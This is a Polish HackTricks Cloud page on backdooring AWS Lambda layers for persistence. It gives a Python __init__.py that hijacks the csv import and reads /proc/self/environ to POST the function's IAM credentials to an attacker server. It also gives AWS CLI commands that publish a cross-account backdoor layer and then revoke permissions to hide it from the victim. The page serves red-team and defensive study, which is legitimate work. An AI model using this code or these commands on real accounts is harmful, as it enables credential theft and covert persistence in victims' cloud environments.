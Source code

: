 # AWS - Trwałość warstw Lambda

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Warstwy Lambda

Warstwa Lambda to archiwum plików .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowy runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Można dołączyć do **pięciu warstw na funkcję**. Gdy dołączasz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Domyślnie **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz wybrać, czy **udostępnić** warstwę innym kontom czy też **publicznie** ją **udostępnić**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal korzystać z wersji warstwy po jej usunięciu lub po cofnięciu uprawnienia do dostępu do warstwy**. Jednak nie możesz tworzyć nowej funkcji ani aktualizować funkcji przy użyciu usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenera nie korzystają z warstw. Zamiast tego pakujesz preferowany runtime, biblioteki i inne zależności do obrazu kontenera podczas budowania obrazu.

### Ścieżka ładowania Pythona

Ścieżka ładowania, którą Python będzie używał w lambdzie, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugie** i trzecie **pozycje** są zajmowane przez katalogi, w których **warstwy lambda** rozpakowują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdoła **wstawić tylną furtkę** do używanej **warstwy lambda** lub **dodać jedną**, która będzie **wykonywać dowolny kod podczas ładowania wspólnej biblioteki**, będzie mógł wykonywać złośliwy kod przy każdym wywołaniu lambdy.
{% endhint %}

Dlatego wymagane są:

* **Sprawdzenie bibliotek**, które są **ładowane** przez kod ofiary
* Utworzenie **biblioteki proxy z warstwami lambda**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas wykorzystywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie wykonywania kodu Pythona. Spodziewałem się znaleźć takie rzeczy jak `os` lub `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby wykorzystać tę technikę trwałej obecności, kod musi **załadować nową bibliotekę, która nie jest załadowana** podczas wykonywania kodu.
{% endhint %}

Z pomocą kodu Pythona, takiego jak ten, można uzyskać **listę bibliotek, które są wstępnie załadowane** w czasie wykonywania kodu Pythona w lambdzie:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
A oto **lista** (sprawdź, czy biblioteki takie jak `os` lub `json` są już dostępne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
A oto lista **bibliotek**, które są domyślnie zainstalowane w **lambda**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Wstrzykiwanie kodu do warstwy Lambda

W tym przykładzie załóżmy, że docelowy kod importuje bibliotekę **`csv`**. Będziemy **wstrzykiwać kod do importu biblioteki `csv`**.

Aby to zrobić, utworzymy katalog csv z plikiem **`__init__.py`** w ścieżce, która jest ładowana przez lambdę: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie uruchomiona i spróbuje załadować **csv**, nasz plik **`__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz payload
* Załadować oryginalną bibliotekę csv

Możemy to zrobić za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Następnie utwórz plik zip z tym kodem w ścieżce **`python/lib/python3.9/site-packages/__init__.py`** i dodaj go jako warstwę lambda.

Ten kod można znaleźć na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Zintegrowany payload **prześle IAM creds do serwera PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambda** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą również być zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Zewnętrzne warstwy

Należy zauważyć, że możliwe jest użycie **warstw lambda z zewnętrznych kont**. Ponadto, lambda może używać warstwy z zewnętrznego konta nawet jeśli nie ma uprawnień.\
Należy również zauważyć, że **maksymalna liczba warstw, jaką może mieć lambda, to 5**.

W związku z tym, aby zwiększyć wszechstronność tej techniki, atakujący mógłby:

* Zainfekować istniejącą warstwę użytkownika (nic nie jest zewnętrzne)
* **Utworzyć** warstwę w **swoim koncie**, dać dostęp do użycia warstwy **kontu ofiary**, **skonfigurować** warstwę w lambda ofiary i **usunąć uprawnienia**.
* **Lambda** nadal będzie mogła **używać warstwy**, a ofiara nie będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania rev shella wewnątrz lambdy)
* Ofiara **nie zobaczy używanych zewnętrznych warstw** za pomocą **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
